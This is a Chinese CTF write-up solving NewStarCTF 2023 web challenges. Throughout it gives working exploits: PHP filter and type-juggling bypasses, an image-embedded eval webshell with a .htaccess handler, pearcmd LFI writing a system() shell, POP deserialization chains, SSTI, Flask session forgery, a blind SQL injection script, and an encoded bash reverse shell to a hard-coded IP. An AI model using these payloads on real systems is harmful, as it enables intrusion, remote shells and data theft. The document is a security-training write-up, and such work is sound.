## Week1

### 泄漏的秘密

hint：粗心的网站管理员总会泄漏一些敏感信息在Web根目录下

访问该网站目录下的robots.txt可以找到第一部分的flag



扫描一下后台，发现www.zip备份文件，将其下载下来，在index.php中发现第二部分flag



### Begin of Upload

hint：普通的上传啦，平平淡淡才是真

在网页源代码里发现前端检测的脚本



我这里用的是Edge浏览器，可以在设置里关掉JavaScript，然后刷新一下页面



然后就能上传任意文件，他这里没有后端检测



根目录下拿到flag



### Begin of HTTP

hint：最初的开始


hackbar传参就行



secret在网页源代码里的注释里

```
<!-- Secret: base64_decode(bjN3c3Q0ckNURjIwMjNnMDAwMDBk) -->
```

base64解密一下再传参就行



F12打开网络，查看当前页面的消息头，在cookie里面发现power参数



hackbar里可以传cookie



浏览器就是user agent



从某个网站来访问用Referer表示



到这里，我的hackbar就无法用了，可能是版本太老，还是得打开burpsuite，抓一下目前的hackbar里的包

本地用户伪造的话，比较常见的就是X-Forwaded-For (经典的XFF头)，或者Client-Ip等等

这里能使用的是X-Real-Ip，抓个包添加这个header就能得到flag

最终如图👇



### ErrorFlask

hint：Err........

进去题目要求传number1和number2来进行加法操作

但是根据题目，只需要传一个参数来导致代码报错，然后进入debug模式就行了



### Begin of PHP

hint：PHP是世界上最安全的语言，真的吗？

```
if(isset($_GET['key1']) && isset($_GET['key2'])){
    echo "=Level 1=<br>";
    if($_GET['key1'] !== $_GET['key2'] && md5($_GET['key1']) == md5($_GET['key2'])){
        $flag1 = True;
    }else{
        die("nope,this is level 1");
    }
}
```

这里要求key1不等于key2，然后MD5值要弱相等，简单一点的话就是将key1和key2都以数组的形式传参，MD5是加密数组会返回NULL，所以后半部分就变成了 NULL==NULL

另一个方法就是md5碰撞，由于后面为弱比较只比较变量值数值，只需要用两个MD5值为0e开头的就能绕过（科学计数法，0e开头的计算值都是0）

这里用数组就行

```
if($flag1){
    echo "=Level 2=<br>";
    if(isset($_POST['key3'])){
        if(md5($_POST['key3']) === sha1($_POST['key3'])){
            $flag2 = True;
        }
    }else{
        die("nope,this is level 2");
    }
}
```

SHA1和MD5一样都是不能加密数组的，都会返回NULL，然而这里是强比较，只能用数组绕过

```
if($flag2){
    echo "=Level 3=<br>";
    if(isset($_GET['key4'])){
        if(strcmp($_GET['key4'],file_get_contents("/flag")) == 0){
            $flag3 = True;
        }else{
            die("nope,this is level 3");
        }
    }
}
```

strcmp比较的是字符串类型，如果强行传入其他类型参数，会出错，出错后返回值0，一样用数组绕过

```
if($flag3){
    echo "=Level 4=<br>";
    if(isset($_GET['key5'])){
        if(!is_numeric($_GET['key5']) && $_GET['key5'] > 2023){
            $flag4 = True;
        }else{
            die("nope,this is level 4");
        }
    }
}
```

这里要求key5不是数字，但是呢key5又要大于2023

还是数组绕过，因为科学计数法也算数字，这里有一个点：数组与数字比较，永远是数组大于数字，即使数组为空，这是PHP内部规定



```
if($flag4){
    echo "=Level 5=<br>";
    extract($_POST);
    foreach($_POST as $var){
        if(preg_match("/[a-zA-Z0-9]/",$var)){
            die("nope,this is level 5");
        }
    }
    if($flag5){
        echo file_get_contents("/flag");
    }else{
        die("nope,this is level 5");
    }
}
```

preg\_match函数只能用于字符串的正则，遇到其他类型的会警告且不会匹配，代码将继续进行下去，然则还是数组绕过，最终payload👇



### R!C!E!

hint：R!C!E!

```
<?php
highlight_file(__FILE__);
if(isset($_POST['password'])&&isset($_POST['e_v.a.l'])){
    $password=md5($_POST['password']);
    $code=$_POST['e_v.a.l'];
    if(substr($password,0,6)==="c4d038"){
        if(!preg_match("/flag|system|pass|cat|ls/i",$code)){
            eval($code);
        }
    }
}
```

先用PHP把这个password的明文跑一下



这里有一个小坑，在PHP的早期版本中，e\_v.a.l中的下划线在传入的时候会被解析为双下划线，下划线可以用左中括号👉 \[ 👈 来代替，他会默认被解析为下划线



正常能看到phpinfo的内容，但是没有flag

然后测试过后发现没有什么命令执行的函数

这里就可以考虑另一种基于PHP的命令执行，这是部分函数👇



可以看到当前工作目录在这里👇



我比较喜欢的一段命令：**scandir(current(localeconv()))**，可以扫描出当前目录的文件，要配合print\_r使用



当前目录没东西啊，切换到根目录下看看



因为print\_r里的参数是数组，直接用索引访问，然后用show\_source看源码即可



### EasyLogin

hint：简简单单、随心所欲



一个简单的登陆界面，源代码能看到一些waf，密码是以MD5加密格式传入后台的

admin用户是已经被注册了，随便注册一个新的账号进去，可以看到是进入了chat的交互状态

可以使用Ctrl+D的命令退出，能够执行一些简单的命令，但是没有flag，网页源码也没有什么有用的信息



那就尝试对admin的密码进行注入

由于密码在body里是以MD5加密的格式，所以SQL注入这里就没有办法



在测试过程中，发现修改pw字段，会给出一些提示，这里我用python跑了一下，可以看看返回信息



其中给出了一个弱密码的信息，可以尝试进行爆破

因为有位数限制，所以从6位开始爆，爆出密码是000000

进去之后还是和普通用户一样的模拟终端

重新抓包看看响应包



在这个页面的响应头里找到flag

## WEEK2

### 游戏高手

进去是个飞机大战的游戏



思路和隔壁shctf是一样的，在源码里发现js文件

只要修改gameScore变量的值就行了



修改后让飞机坠毁，就能得到flag👇



### include 0。0

php源码如下👇

```
<?php
highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
    @include($file);
}else{
    die("nope");
}
?>
```

过滤掉了base和rot

我们还是可以使用filter来进行读取文件，base和rot也只是两种编码形式而已，可以使用其他的编码来读取

这里我们可以使用这个poc

```
?file=php://filter/read=convert.iconv.utf-8.utf-16/resource=flag.php
#意思是将原有的字符格式从utf8转为utf16
```



input伪协议在这里用不了，应该是相关设置没打开

### ez\_sql

进去随便点一个链接，发现是GET型的sql查询，而且还是单引号字符型

使用 group by 查询得出当前有5列字段

union 和select 被过滤掉了，但是可通过大写绕过



另外还有一些关键字也被过滤，也可以测试后通过部分大写绕过





### Unserialize？

php源码如下

```
 <?php
highlight_file(__FILE__);
// Maybe you need learn some knowledge about deserialize?
class evil {
    private $cmd;

    public function __destruct()
    {
        if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){
            @system($this->cmd);
        }
    }
}

@unserialize($_POST['unser']);
?> 
```

过滤掉了cat、tac等命令

不过可以使用插入斜杠来绕过，比如cat=ca\\t等

这里生成序列化字符串的php代码👇

<?php  

// Maybe you need learn some knowledge about deserialize?  
class evil {  
private $cmd='ca\\t /th1s\_1s\_fffflllll4444aaaggggg';  


}

$a=new evil();  
echo serialize($a);

#O:4:"evil":1:{s:9:" evil cmd";s:35:"less /th1s\_1s\_fffflllll4444aaaggggg";}

注意由于这里的cmd参数是private类型，生成的字符串中会存在不可见字符，要用%00将其替换



最终传入payload👇


### Upload again!

一个文件上传页面，源码里没有东西可以看

经过测试，php以及可以替换的后缀全部被过滤掉

而且对文件内容有所检查，好像<?php 、<?这样的组合都被ban了

但是好在可以使用另一种script方式的php代码

```
<script language="php">eval($_POST[a]);</script>
#这句话插在一张jpg图片的末尾
```

然后可以上传.htaccess文件修改系统配置

htaccess文件内容如下

```
<FilesMatch "ma.jpg">
SetHandler application/x-httpd-php 
</FilesMatch>
```

然后访问/upload/ma.jpg



用蚁剑连接，在根目录下拿到flag



### R!!C!!E!!



这段英文说让我们找泄露信息

测试之后发现存在git泄露

使用githack将文件下载下来，发现有一个bog的php文件



访问之后，下面是源码👇

```
 <?php
highlight_file(__FILE__);
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){
        eval($_GET['star']);
    }
} 
```

经典的字符串递归替换，这里是要利用无参数的RCE，只能调用函数，可以嵌套，但不能有参数

常见的来说，**print\_r(scandir(current(localeconv())));** 这个命令就能回显出当前目录的文件了

但是这里把scandir过滤掉了，也就无法使用这种方式

无参数的还有另外两种方式：请求头绕过、Session绕过

在这里session打不开，应该是PHP的设置没打

这是一个基本的思路图👇，本地测试的，与题目无关



getallheaders会返回请求头里的所有信息，如图



然后这不知道怎么，使用pos截取请求头后，无法执行命令

于是尝试了另一种使用键值交换，然后随机读取执行命令的方式



这样随机读取就要我们自己抓包添加http头，然后不停发包

具体头如下

```
GET /bo0g1pop.php?star=eval(array_rand(array_flip(getallheaders()))); HTTP/1.1
Host: 114623be-b8ab-4497-a8c7-5c4f159b20f0.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
hyh: system("cat /f*");
```



打开在返回头里得到flag



## WEEK3

### medium\_sql


经过简单的测试，发现是单引号闭合的注入，过滤掉了and、or等但是可以通过大写绕过，Union无法绕过



然后有些输入是没有回显，有的又有，可以通过

这里就直接上sqlmap跑



然后就能跑出来flag


### Include 🍐

源码如下👇

```
<?php
    error_reporting(0);
    if(isset($_GET['file'])) {
        $file = $_GET['file'];
        
        if(preg_match('/flag|log|session|filter|input|data/i', $file)) {
            die('hacker!');
        }
        
        include($file.".php");
        # Something in phpinfo.php!
    }
    else {
        highlight_file(__FILE__);
    }
?>
```

在phpinfo里看到搜索register关键字，可以看到两个选项是打开状态，结合题目的那个梨(英文是pear)，那么这道题的思路就是pearcmd配合LFI，远程下载文件后再进行包含执行命令，不过这个题好像不出网，只能本地创建文件来包含了



看到很多博客都有类似的wp，但是无法使用，不过在2022年的newstarctf里找到类似的题（可以说一模一样了。。。里面刚好有现成的wp

```
#payload
#在当前目录创建一个shell.php文件
?file=/usr/local/lib/php/pearcmd&+config-create+/<?=system($_GET[1])?>+./shell.php

?file=hello&1=cat /f*
```

拿到flag，注意在Firefox浏览器中的hackbar发包会不成功，因为会把<>括号转义成%3C、%3E，那么在生成的文件中就无法被执行，需要抓包后在上传payload



### POP Gadget

一道反序列化的题目

源码如下👇

```
 <?php
highlight_file(__FILE__);

class Begin{
    public $name;

    public function __destruct()
    {
        if(preg_match("/[a-zA-Z0-9]/",$this->name)){
            echo "Hello";
        }else{
            echo "Welcome to NewStarCTF 2023!";
        }
    }
}

class Then{
    private $func;

    public function __toString()
    {
        ($this->func)();
        return "Good Job!";
    }

}

class Handle{
    protected $obj;

    public function __call($func, $vars)
    {
        $this->obj->end();
    }

}

class Super{
    protected $obj;
    public function __invoke()
    {
        $this->obj->getStr();
    }

    public function end()
    {
        die("==GAME OVER==");
    }
}

class CTF{
    public $handle;

    public function end()
    {
        unset($this->handle->log);
    }

}

class WhiteGod{
    public $func;
    public $var;

    public function __unset($var)
    {
        ($this->func)($this->var);    
    }
}

@unserialize($_POST['pop']); 
```

经过分析，整条的pop链条如下👇

```
Begin.destruct -> Then.call -> Super.invoke -> Handle.call -> CTF.end -> WhiteGod.__unset
```

由于其中有的类属性是私有或者受保护的，不能够直接访问或引用，我这里就稍稍修改了一下，给那些类添加了一个construct魔术方法，来延申链条，payload如下👇

```
<?php
class Begin{
    public $name;
}

class Then{
    private $func;
    public function __construct(){
        $this->func = new Super();
    }
}

class Handle{
    protected $obj;
    public function __construct(){
        $this->obj = new CTF();
    }

}

class Super{
    protected $obj;
    public function __construct(){
        $this->obj = new Handle();
    }
}

class CTF{
    public $handle;
    public function __construct(){
        $this->handle = new WhiteGod();
    }
}

class WhiteGod{
    public $func='system';
    public $var='cat /f*';

}
$begin=new Begin();
$begin->name=new Then();
echo serialize($begin);
#O:5:"Begin":1:{s:4:"name";O:4:"Then":1:{s:10:" Then func";O:5:"Super":1:{s:6:" * obj";O:6:"Handle":1:{s:6:" * obj";O:3:"CTF":1:{s:6:"handle";O:8:"WhiteGod":2:{s:4:"func";s:6:"system";s:3:"var";s:7:"cat /f*";}}}}}}
```

其中的私有属性或者受保护属性在序列化字符串中会存在不可见字符，要将其修改为%00

最终效果如下👇



### GenShin

在http响应包里发现一个路由，访问进去



然后就是正常的SSTI注入

测试发现过滤了单引号、等号、init关键字等，而且只能通过print来回显

由于init被过滤了，能利用的函数就很少了

这里能够使用最简单的就是文件读取模块


通过数组来索引他， 没什么难度

```
#payload
?name=
```

### R!!!C!!!E!!!

源码如下👇

```
 <?php
highlight_file(__FILE__);
class minipop{
    public $code;
    public $qwejaskdjnlka;
    public function __toString()
    {
        if(!preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $this->code)){
            exec($this->code);
        }
        return "alright";
    }
    public function __destruct()
    {
        echo $this->qwejaskdjnlka;
    }
}
if(isset($_POST['payload'])){
    //wanna try?
    unserialize($_POST['payload']);
} 
```

要RCE就要触发里面的tostring方法，很简单，只需要将第二个变量指向自己就可以了

不过exec这个函数是无回显的，我们要想办法拿到反弹shell

这里过滤掉了ip中的点，但是可以使用base64加密再解密结合bash执行命令即可

然后关键字bash和base64又被过滤掉了，不过可以使用斜杠的方式来绕过

payload👇

```
<?php
class minipop{
public $code="bas\h -c 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMzUuMTkuNzgvMTAwIDA+JjE= | ba\se64 -d| bas\h -i'";
public $qwejaskdjnlka;

}
$one=new minipop();
$one->qwejaskdjnlka=$one;
echo serialize($one);

#其中echo后面的部分是 bash -i >& /dev/tcp/ip/port 0>&1 这样的，需要自己修改ip和端口
```

拿到flag



### OtenkiGirl

在routes/info.js源码中发现👇

```
async function getInfo(timestamp) {    timestamp = typeof timestamp === "number" ? timestamp : Date.now();    // Remove test data from before the movie was released    let minTimestamp = new Date(CONFIG.min_public_time || DEFAULT_CONFIG.min_public_time).getTime();    timestamp = Math.max(timestamp, minTimestamp);    const data = await sql.all(`SELECT wishid, date, place, contact, reason, timestamp FROM wishes WHERE timestamp >= ?`, [timestamp]).catch(e => { throw e });    return data;}
```

在route/submit.js源码中发现

```
const merge = (dst, src) => {    if (typeof dst !== "object" || typeof src !== "object") return dst;    for (let key in src) {        if (key in dst && key in src) {            dst[key] = merge(dst[key], src[key]);        } else {            dst[key] = src[key];        }    }    return dst;}const result = await insert2db(merge(DEFAULT, data));
```

这个merge函数是原型链污染的一个标志性函数了

payload👇



然后post访问/info/0即可，注意要添加一个content-type头



## WEEK4

### 逃

PHP源码如下👇

```
 <?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}

unserialize(waf(serialize(new GetFlag($_GET['key'])))); www-data www-data 
```

这个waf里的str\_replace配合反序列化，不难看出这是一道反序列化字符串逃逸的题目

具体原理在之前的文章已经解释过，这里一个bad能逃逸出一个字符

payload👇

```
http://a0022e29-c3ad-4cfc-b434-f86b58a98a48.node4.buuoj.cn:81/?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:7:"cat /f*";}
```



### More Fast

题目源码👇

```
<?php
highlight_file(__FILE__);

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class Misc{
    public function evil() {
        echo "good job but nothing";
    }
}

$a = @unserialize($_POST['fast']);
throw new Exception("Nope");
```

先说POP链

```
Start->destruct.die 👉 Crypto->tostring 👉 Reverse->__get 👉 Pwn->invoke  👉 Web->evil
```

payload👇

```
<?php
class Start{
    public $errMsg;

}

class Pwn{
    public $obj;

}

class Reverse{
    public $func;

}

class Web{
    public $func;
    public $var;

}

class Crypto{
    public $obj;

}
$a=new Start();
$b=new  Crypto();
$a->errMsg=$b;
$c=new Reverse();
$b->obj=$c;
$d=new Pwn();
$c->func=$d;
$e=new Web();
$d->obj=$e;
$e->func='system';
$e->var='cat /f*';
echo serialize($a);

#O:5:"Start":1:{s:6:"errMsg";O:6:"Crypto":1:{s:3:"obj";O:7:"Reverse":1:{s:4:"func";O:3:"Pwn":1:{s:3:"obj";O:3:"Web":2:{s:4:"func";s:6:"system";s:3:"var";s:7:"cat /f*";}}}}}
```

现在链条已经完成，但是在源码的最后一行存在一个异常抛出，这个抛出会打断程序的正常执行，造成我们无法开始destruct反序列化

这里贴一个博客：[\[原创\]利用PHP垃圾回收机制构造POP链-CTF对抗-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-271714.htm)

解决方法很简单，就和绕过wakeup一样，把属性个数改大一个就行了



### InjectMe

题目给的附件源码👇

```
FROM vulhub/flask:1.1.1
ENV FLAG=flag{not_here}
COPY src/ /app
RUN mv /app/start.sh /start.sh && chmod 777 /start.sh
CMD [ "/start.sh" ]
EXPOSE 8080
```

可以看出这是一个flask框架搭建的网站，而且存在app目录

在cancanneed路由下的110.jpg中发现部分源码



可以利用这个download函数进行任意文件下载，那个路径拼接直接用根目录即可绕过

下载/app/app.py看到网站源码👇

```
import os
import re

from flask import Flask, render_template, request, abort, send_file, session, render_template_string
from config import secret_key

app = Flask(__name__)
app.secret_key = secret_key

@app.route('/')
def hello_world():  # put application's code here
    return render_template('index.html')

@app.route("/cancanneed", methods=["GET"])
def cancanneed():
    all_filename = os.listdir('./static/img/')
    filename = request.args.get('file', '')
    if filename:
        return render_template('img.html', filename=filename, all_filename=all_filename)
    else:
        return f"{str(os.listdir('./static/img/'))} <br> <a href=\"/cancanneed?file=1.jpg\">/cancanneed?file=1.jpg</a>"

@app.route("/download", methods=["GET"])
def download():
    filename = request.args.get('file', '')
    if filename:
        filename = filename.replace('../', '')
        filename = os.path.join('static/img/', filename)
        print(filename)
        if (os.path.exists(filename)) and ("start" not in filename):
            return send_file(filename)
        else:
            abort(500)
    else:
        abort(404)

@app.route('/backdoor', methods=["GET"])
def backdoor():
    try:
        print(session.get("user"))
        if session.get("user") is None:
            session['user'] = "guest"
        name = session.get("user")
        if re.findall(
                r'__|{{|class|base|init|mro|subclasses|builtins|globals|flag|os|system|popen|eval|:|\+|request|cat|tac|base64|nl|hex|\\u|\\x|\.',
                name):
            abort(500)
        else:
            return render_template_string(
                '竟然给<h1>%s</h1>你找到了我的后门，你一定是网络安全大赛冠军吧！😝 <br> 那么 现在轮到你了!<br> 最后祝您玩得愉快!😁' % name)
    except Exception:
        abort(500)

@app.errorhandler(404)
def page_not_find(e):
    return render_template('404.html'), 404

@app.errorhandler(500)
def internal_server_error(e):
    return render_template('500.html'), 500

if __name__ == '__main__':
    app.run('0.0.0.0', port=8080)
```

存在一个后门路由backdoor，访问进去

在这个页面存在session伪造





而且在源码中的这一段代码中存在name字段的SSTI注入

```
 if re.findall(
                r'__|{{|class|base|init|mro|subclasses|builtins|globals|flag|os|system|popen|eval|:|\+|request|cat|tac|base64|nl|hex|\\u|\\x|\.',
                name):
            abort(500)
        else:
            return render_template_string(
                '竟然给<h1>%s</h1>你找到了我的后门，你一定是网络安全大赛冠军吧！😝 <br> 那么 现在轮到你了!<br> 最后祝您玩得愉快!😁' % name)
```

secret\_key在config中，同样可以通过/app/config下载到

```
secret_key = "y0u_n3ver_k0nw_s3cret_key_1s_newst4r"
```

注意上面有正则过滤，过滤掉了 {{，就只有使用的方式进行回显

```
D:\flask-session-cookie-manager-master>python flask_session_cookie_manager3.py encode -s y0u_n3ver_k0nw_s3cret_key_1s_newst4r -t {\"user\":\"\"}
eyJ1c2VyIjoieyVwcmludChjb25maWcpJX0ifQ.ZTiDuA.hYwhzv6Njj1fujXIlKPC_WmhTMI
```

先看看config，里面没有flag



最后的payload👇

```
from itsdangerous import base64_decode
import zlib
from flask.sessions import SecureCookieSessionInterface
import ast

class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key

def encode(secret_key, session_cookie_structure):
    try:
        app = MockApp(secret_key)
        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)
        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error] {}".format(e)

def decode(session_cookie_value, secret_key=None):
    try:
        if secret_key is None:
            compressed = False
            payload = session_cookie_value
            if payload.startswith('.'):
                compressed = True
                payload = payload[1:]
            data = payload.split(".")[0]
            data = base64_decode(data)
            if compressed:
                data = zlib.decompress(data)
            return data
        else:
            app = MockApp(secret_key)
            si = SecureCookieSessionInterface()
            s = si.get_signing_serializer(app)
            return s.loads(session_cookie_value)
    except Exception as e:
        return "[Decoding error] {}".format(e)

# 示例用法
secret_key = "y0u_n3ver_k0nw_s3cret_key_1s_newst4r"
cookie_structure = '{"user":""}'

encoded_cookie = encode(secret_key, cookie_structure)
print( encoded_cookie)
#.eJxNjEEKgzAURK9SAjJm1QYLhd6jqyhB218bSJOQr4si3l2DUtwNb2beJEamJO5iKmKyfigBDQOYp2sB5hzRbKjLhI6Ex27dccb7spRaqdteWw_Y4XjoXcgW9_fGAETy6xHfkOhU1-ff5VGZt7r2RrH5VIkgNRK1r2yXxSzmBUdLNh8.ZTiPOg.1fXG2DqLEfnDiPo2w106x4XAIVg
```



吐槽一下，真的没必要整的这么麻烦。。。。

### midsql


页面上给了部分源码，这里不是字符型注入，可以直接写

然后遇到空格、等号会被检测然后无回显，下面也不会回显结果

这道题只能使用时间盲注了

python脚本👇

```
import string

import  requests
import time
url='http://40430852-6cf8-4fa9-9a96-cf0c1b027f30.node4.buuoj.cn:81/?id='
res=''
for i in range(24,100):
    for j in range(44,127):
        payload=f'1/**/and/**/if(aSCii(Substr((select/**/group_concat(name)/**/from/**/' \
                f'items),{i},1))>{j},sleep(0.5),sleep(0.01))'
        t1=time.time()
        r=requests.get(url=url+payload)
        t2=time.time()
        print(j,res)
        if t2-t1 <0.5:
            res+=chr(j)
            print(res)
            break

```


### PharOne

在源代码中发现/class.php页面

```
 <?php
highlight_file(__FILE__);
class Flag{
    public $cmd;
    public function __destruct()
    {
        @exec($this->cmd);
    }
}
@unlink($_POST['file']); 
```

unlink函数的作用👇



结合题目，这道题要上传一个phar文件，然后用在class.php里的unlink里用phar伪协议读取，不过exec本身是无回显的，这里反弹bash会好一点
